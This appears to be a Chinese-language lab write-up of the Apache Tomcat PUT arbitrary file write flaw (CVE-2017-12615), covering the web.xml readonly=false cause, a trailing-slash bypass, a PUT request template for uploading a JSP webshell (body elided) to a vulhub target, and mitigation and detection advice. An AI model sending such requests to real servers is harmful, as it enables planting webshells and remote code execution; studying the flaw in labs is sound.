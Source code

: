 ```yaml
---
category: 网络安全
tag: 漏洞分析
---
```


# 漏洞名称：Tomcat PUT 方法任意写文件漏洞

<!-- more -->

---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

---

Apache Tomcat 是美国阿帕奇（Apache）软件基金会下属的 Jakarta 项目的一款轻量级 Web 应用服务器，它主要用于开发和调试 JSP 程序，适用于中小型系统。部分版本的 Tomcat 启用 HTTP PUT 请求方法时，远程攻击者可以构造恶意请求利用该漏洞向服务器上传包含任意代码执行的 jsp 文件，并被服务器执行该文件，导致攻击者可以执行任意代码。

---

### 漏洞危害

攻击者有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件，之后 JSP 文件中的代码将能被服务器执行。

---

### 影响范围

7.0.0<=Version <=7.0.79

---

## 漏洞原理

Tomcat 的 Servlet 是在 conf/web.xml 配置的，通过配置文件可知，漏洞本质 Tomcat 配置了可写（readonly=false），导致我们可以往服务器写文件：

```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

当后缀名为 .jsp 和 .jspx 的时候，是通过 JspServlet 处理请求的。例如`1.jsp `（末尾有一个空格）并不能匹配到 JSP Servlet，而是会交由 default Servlet 去处理。

```
<!-- The mapping for the default servlet -->
    <servlet-mapping>
        <servlet-name>default</servlet-name>
        <url-pattern>/</url-pattern>
    </servlet-mapping>

    <!-- The mappings for the JSP servlet -->
    <servlet-mapping>
        <servlet-name>jsp</servlet-name>
        <url-pattern>*.jsp</url-pattern>
        <url-pattern>*.jspx</url-pattern>
    </servlet-mapping>
```

虽然 Tomcat 对文件后缀有一定检测（不能直接写 jsp），但我们使用一些文件系统的特性（如 Linux 下可用`/`）来绕过了限制。

---

### 靶机环境

vulhub/tomcat/CVE-2017-12615

---

### 利用方式 1

使用 PUT 请求发送以下内容：

```
PUT /1.jsp/ HTTP/1.1
Host: 192.168.1.189:8090
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 958

--jsp shell--
```

![02](./img/tomcat_CVE-2017-12615/02.png)

然后利用蚁剑进行连接：

![01](./img/tomcat_CVE-2017-12615/01.png)

###

---

## 威胁防护建议

---

### 用户处置建议

将 conf/web.xml 中对于 DefaultServlet 的 readonly 设置为 true

---

### 安全产品检测建议

检测 PUT 形式发送后缀名为 jsp 的请求

检测 jsp 格式的木马
